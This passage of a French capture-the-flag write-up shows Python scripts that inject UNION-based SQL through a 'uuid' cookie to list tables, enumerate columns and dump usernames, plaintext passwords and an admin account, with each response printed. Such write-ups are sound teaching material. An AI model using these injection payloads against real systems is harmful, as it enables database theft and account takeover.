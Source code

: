 ```python
URL = "https://la-vie-francaise.challenges.404ctf.fr"
client = Session()

client.cookies.set('uuid', "' OR 1 = 1 UNION SELECT NULL, GROUP_CONCAT(table_name), NULL FROM information_schema.tables WHERE table_schema=database() ORDER BY 3 ASC LIMIT 1 #")

print(client.get(f"{URL}/account", allow_redirects=False).text)
```

Réponse :
```html
<p> users </p>
```

Il n'y a que **`users`** !

<br>

### Déterminer les colonnes de la table 'users'

Bien, maintenant quelles sont les colonnes de cette table ?

```python
from requests import Session

URL = "https://la-vie-francaise.challenges.404ctf.fr"
client = Session()

client.cookies.set('uuid', "' OR 1 = 1 UNION SELECT NULL, GROUP_CONCAT(column_name), NULL FROM information_schema.columns WHERE table_name = 'users' ORDER BY 3 ASC LIMIT 1 #")

print(client.get(f"{URL}/account", allow_redirects=False).text)
```

Réponse :
```html
<p> id,username,password,uuid,description,status,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS </p>
```

Ce qui nous intéresse ici est le **`status`** du compte pour en voler un spécial.

Ensuite, soit le combo **`username`** / **`password`**, soit le **`uuid`** pour se connecter directement en définissant notre cookie.

<br>

### Récupérer les utilisateurs et leur mot de passe

Là on va dumper toutes les informations intéressantes de la table d'un coup en les groupants au format **`username:password:status`**.

```python
from requests import Session

URL = "https://la-vie-francaise.challenges.404ctf.fr"
client = Session()

client.cookies.set('uuid', "' OR 1 = 1 UNION SELECT NULL, GROUP_CONCAT(CONCAT(username, ':', password, ':', status)), NULL FROM users ORDER BY 3 ASC LIMIT 1 #")

print(client.get(f"{URL}/account", allow_redirects=False).text)
```

Réponse :
```html
<p> jacquesrival:jQwmE96dZMEwmL:invite,louislangremont:Am2GzqU4xWA3At:invite,saintpotin:rH2jWTo9mnWJpd:invite,norbertdevarenne:2P4vLpv7SV5dRK:invite,larochemathieu:4EJ36bMx2NgAuh:invite,madeleineforestier:fo2DVkgShz2pPJ:admin </p>
```
